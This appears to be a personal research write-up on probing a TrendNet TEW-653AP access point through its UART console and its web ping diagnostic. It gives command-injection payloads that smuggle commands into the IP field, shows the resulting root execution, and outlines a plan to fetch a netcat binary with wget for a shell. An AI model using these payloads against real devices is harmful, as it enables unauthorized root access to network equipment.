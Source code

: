 # Trendnet
Notes for TrendNet AP


# Locating UART
I found an area on the board that looked like UART, with a multimeter I found what I think is ground, Send and Recieve

# Testing UART
I hooked up my flipper zero and connect like normal, after playing around with different baud rates it seems like to 57600.
```
U-boot Ver:1.0.1.30 2009/10/12


Board: Ralink APSoC DRAM:  32 MB  1*32 MB
============================================ 
ASIC 3052_MP2 (Port5<->None)
Product Name: EAP9550
SDRAM CAS = 3(d1835272) 
============================================ 

Please choose the operation: 
   1: Load system code to SDRAM via TFTP. 

LINUX started...
init started: BusyBox v1.7.5 (2011-06-30 16:53:57 CST)
starting pid 131, tty '/dev/console': '/sbin/config_init'
Config Init version: 1.2.2.98 date: 2011/06/30
starting pid 174, tty '/dev/ttyS1': '/sbin/config_term'
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> cat: can't open '/apps/lib/modules/2.6.21/modulesApp.dep': No such file or directory
ln: /sbin/./apps_init: File exists
sh: cannot create /proc/senao/ip_conntrack_interface: nonexistent directory

```

It seemed like the UART shell was limited. Even though I was looking at a prompt, it didn't respond to common commands:
```
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> help
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ls
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ?
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> whoami
************************************************************************
*                                TEW-653AP                             *
************************************************************************
```
I did find an old DD-WRT forum post in which a user suggests you can enter 1,2,4 or 9 at the prompt (2,4 and 9 are hidden options). I tried these options but did not notice any changes:
https://forum.dd-wrt.com/phpBB2/viewtopic.php?t=89254&postdays=0&postorder=asc&start=15

# Command Injection
I noticed on the Tools > Diagnostic menu there was a ping utility, provide an IP address and the AP will attempt to ping the target. This looked like a command injection to me, I played around with it for a bit and was unable to get it to work.

I did notice if I provided a payload such as:
```
192.168.10.10'|id|'
```
Then the AP would continue to ping the target IP, regardless of how many counts were provided. I observed the continous ping in wireshark. This led me to believe there is something interesting happening here.

# UART Logs
While connected to the UART, I continued to test the ping functionality. While providing the following payload:
```
192.168.10.101"$(id)"
```
I noticed the following in the UART console:
```
ping bad address: uid=0
```

This confirmed there is in fact a command injection, I can see in the UART console log that the _id_ command did execute. it appears the output from the _id_ command was fed into the ping command.

# Trying for a shell
After confirming the command injection, I wanted to get a shell on the device. I tried many different payloads, but nothing was working and the limited output of the UART console was making it hard to tell what exactly was failing. I thought it would be helpful to know what applets were on this busybox, and if netcat was present at all. So I made a wordlist of all busybox applets from here: https://busybox.net/downloads/BusyBox.html I then used BurpSuite's Intruder to send each applet inside my command injection payload, and logged the UART shell output. I found the following applets installed:
```
cat binaries.txt       
ping: bad address 'sbin/arp'
ping: bad address 'sbin/brctl'
ping: bad address 'sbin/dumpleases'
ping: bad address 'sbin/httpd'
ping: bad address 'sbin/ifconfig'
ping: bad address 'sbin/ifdown'
ping: bad address 'sbin/ifup'
ping: bad address 'sbin/init'
ping: bad address 'sbin/insmod'
ping: bad address 'sbin/lsmod'
ping: bad address 'sbin/modprobe'
ping: bad address 'sbin/reset'
ping: bad address 'sbin/rmmod'
ping: bad address 'sbin/route'
ping: bad address 'sbin/sysctl'
ping: bad address 'sbin/syslogd'
ping: bad address 'sbin/udhcpc'
ping: bad address 'sbin/udhcpd'
ping: bad address 'sbin/vconfig'
ping: bad address 'sbin/wget'
ping: bad address 'bin/ash'
ping: bad address 'bin/ash'
ping: bad address 'bin/cat'
ping: bad address 'bin/chmod'
ping: bad address 'bin/cp'
ping: bad address 'bin/date'
ping: bad address 'bin/df'
ping: bad address 'bin/dmesg'
ping: bad address 'bin/echo'
ping: bad address 'bin/grep'
ping: bad address 'bin/ip'
ping: bad address 'bin/kill'
ping: bad address 'bin/ln'
ping: bad address 'bin/ls'
ping: bad address 'bin/mkdir'
ping: bad address 'bin/mknod'
ping: bad address 'bin/mv'
ping: bad address 'bin/netstat'
ping: bad address 'bin/nice'
ping: bad address 'bin/pidof'
ping: bad address 'bin/ping'
ping: bad address 'bin/ps'
ping: bad address 'bin/pwd'
ping: bad address 'bin/rm'
ping: bad address 'bin/sh'
ping: bad address 'bin/sleep'
ping: bad address 'bin/stty'
ping: bad address 'bin/sync'
ping: bad address 'bin/touch'
ping: bad address 'bin/true'
ping: bad address 'bin/umount'
ping: bad address 'bin/uname'
```
It doesn't look like theres much to work with, and nc missing so any netcat shells won't work.

# Bring my own binary?
I noticed wget is present, and I confirmed it worked by using the command injection to download a txt file from my laptop. So I thought maybe I can just compile a version of netcat for the AP, then use wget to retrieve it.  While looking at the board I noticed there was a piece of metal (a heatsink?) on top of the processor:
pic here

So I thought, I'll just pop that off so I can see specifically what the processor is. I did that and found it was a RaLink (which should have been obvious because I saw Ralink the UART prompt previously):

# Bummer
With the specific model number for the processor I did some research. It's a MIPS processor, and so any binary I compile would need to be MIPS. This led me down a rabbit hole researching cross compiling, and trying to find shells or mips backdoors other people have created. I did find an interesting one here that was created for a trendnet switch: https://osandamalith.com/2015/10/11/how-to-turn-your-switch-into-a-snitch/

I was excited to try this out, I started by compiling a simple hello world binary. I got everything ready and then..... 

The AP no longer powers up. Previously on boot, LEDs would flash, I don't see those anymore. I don't see it broadcasting it's default SSID, and I get nothing on the UART port. When I test with my multimeter, I don't see any voltage coming from the TX pin on the UART.

Womp Womp

I don't know what I did wrong, I didn't think removing the heatsink would break the AP, but I guess it did. That's all for now, maybe I can find another AP in the future.

